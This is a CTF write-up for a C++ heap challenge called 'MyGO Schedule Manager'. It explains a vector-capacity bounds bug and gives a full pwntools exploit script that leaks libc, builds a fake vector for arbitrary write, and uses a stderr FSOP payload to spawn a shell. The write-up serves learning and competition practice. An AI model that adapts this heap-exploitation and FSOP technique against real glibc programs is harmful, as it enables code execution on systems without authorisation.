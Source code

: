 # MyGO Schedule Manager β
> Author: 堇姬Naup

## analyze code

First, you need to login. Just input `MyGO!!!!!` in username and `TomorinIsCute` in password.

And then you will look four function about manipulate schedule.

1 -> add
2 -> edit
3 -> delete
4 -> show

Trace this code.

`add_schedule` need to input a string which you want to emplace_back to schedule (std::vector<std::string>).
It'll check scedule not bigger than 4.

`edit_schedule` it need to two input. `index` and `string` 
It will edit schedule[index] to your input string.
And it will check your input not bigger than vector capacity(It is so strange, but let me later to descript it. It is this challenge core) 

`delete_schedule` is look like previous function.
User need to input index, it will erase vector.begin()+index.
This part check is the same, it check vector capacity.


Last function is show_schedule. It will show your schedule's string content.
And check is vector capacity.

## Some Knowledge
First we need to know `std::vector` and `std::string` structure.
This is std::vector
| offset | description |
|--------|-------------|
| 0x0 | array's first element pointer |
| 0x8 | vector end pointer |
| 0x10 | array's capacity limit pointer  |

Anthor is std::string
| offset | description |
|--------|-------------|
| 0x0    | data's pointer |
| 0x8    | vector size |
| 0x10   | vector capacity |
| 0x18   | unused padding or alignment space |

OK, now you need to know vector capacity.
When vector need to let its capacity more bigger?
The answer is $2^n, n \in \{ 0, 1, 2, 3, \dots \}$
If it need to expand its capacity.
It will free origin chunk which store vector elements structure.
And alloc new chunk.

## analyze bug
We know vector's capacity will be expanded in advanced.
So, when vector elements count is 3.
Its capacity is four.

It will access out of vector's have element part.
So first we alloc 0x500 size std::string, and alloc 0x10 size(When you free 0x500, let your unsorted bin not consolidate to top chunk.)
And free 0x10 and free 0x500.
And you show chunk 0x500, fd and bk's libc address will be show.
We will leak libc
```c
iterator erase(iterator position){
    if(position + 1 != end()){
        copy(position+1,finish,position);
}
    --finish;
    destroy(finish);
    return position;
}
```

And we alloc one chunk, and input it like a fake vector (4 elements).
Fourth element 0x0 change to `You want to write address` (This is pointer point to data), and free this chunk.

Alloc three chunk:
When you alloc third chunk, vector capacity will be expanded to 4 and alloc new chunk store element struct.
In advanced, you have been freed a fake chunk will be catch to use and fourth element have been put fake vector which point to `You want to write address`.

And it check use capacity, so we can access this fake pointer.
So we will get arbitrary write.

We write FSOP on stderr. We will get shell.
This is my script

## script
```python
from pwn import *
from libs.NAUP_pwn_lib import *
import time
from libs.NAUP_filestructure_lib import *
from libs.NAUP_fmt_lib import *

#### This is a CTF pwn templates make by Naup

def s(payload): return r.send(payload)
def sl(payload): return r.sendline(payload)
def sla(after, payload): return r.sendlineafter(after, payload)
def sa(after, payload): return r.sendafter(after, payload)
def rc(num): return r.recv(num)
def rcl(): return r.recvline()
def rcls(num): return r.recvlines(num)
def rcu(payload): return r.recvuntil(payload)
def ita(): return r.interactive()
def cl(): return r.close()
def tsl(): return time.sleep(0.2)

x64_env()

REMOTE_LOCAL=input("local?(y/n):")

if REMOTE_LOCAL=="y":
    r=process('./chal')
    debug_init()
    
else:                                           
    REMOTE_INFO=split_nc("nc naup.com 2000")

    REMOTE_IP=REMOTE_INFO[0]
    REMOTE_PORT=int(REMOTE_INFO[1])

    r=remote(REMOTE_IP,REMOTE_PORT)

### attach
if input('attach?(y/n)') == 'y':
    p(r)

### heap IO
def login():
    sla(b"Username > ", b"MyGO!!!!!")
    sla(b"Password > ", b"TomorinIsCute")

def add(item):
    sla(b"< MyGO @ ScheduleManager $ > ", b"1")
    sla(b"Input item > ", item)

def edit(idx, item):
    sla(b"< MyGO @ ScheduleManager $ > ", b"2")
    sla(b"Index > ", str(idx).encode())
    sla(b"Edit item > ", item)

def delete(idx):
    sla(b"< MyGO @ ScheduleManager $ > ", b"3")
    sla(b"Index > ", str(idx).encode())

def show(idx):
    sla(b"< MyGO @ ScheduleManager $ > ", b"4")
    sla(b"Index > ", str(idx).encode())

def exitf():
    sla(b"< MyGO @ ScheduleManager $ > ", b"5")

### exploit

login()
add(b"a" * 0x500)
add(b"b" * 0x10)
delete(1)
delete(0)

show(0)
r.recvuntil(b'] is ')
leaklibc = u64(r.recvline().strip()[:6].ljust(8,b'\x00'))
libcbase = leaklibc - 0x21ace0

IO_STDERR = libcbase + 0x21b6a0
libc_system = libcbase + 0x50d70 

payload1  = p64(0xaabbccdd) + p64(0) + p64(0) + p64(0)
payload1 += p64(0xaabbccdd) + p64(0) + p64(0) + p64(0)
payload1 += p64(0xaabbccdd) + p64(0) + p64(0) + p64(0)
payload1 += p64(IO_STDERR) + p64(0x1d0) + p64(0x1d0) + p64(0)

add(payload1)
delete(0)

add(b'Tomorin')
add(b'Soyorin')
add(b'Rana')

payload2 =  p32(0xfbad0101) + b";sh\x00" + b'\x00' * (0x50)
payload2 += p64(libc_system) + b'\x00' * (0x28)
payload2 += p64(IO_STDERR - 0x10) + b'\x00' * (0x10)
payload2 += p64(IO_STDERR - 0x10) + b'\x00' * 0x18
payload2 += p32(1) + b'\x00' * (0xc)
payload2 += p64(IO_STDERR - 0x10) + p64(libcbase + 0x217078) 

edit(3, payload2)
exitf()


NAUPINFO("LEAKLIBC", hex(leaklibc))
NAUPINFO("LIBCBASE", hex(libcbase))
NAUPINFO('STD ERROR', hex(IO_STDERR))
### interactive
ita()
```






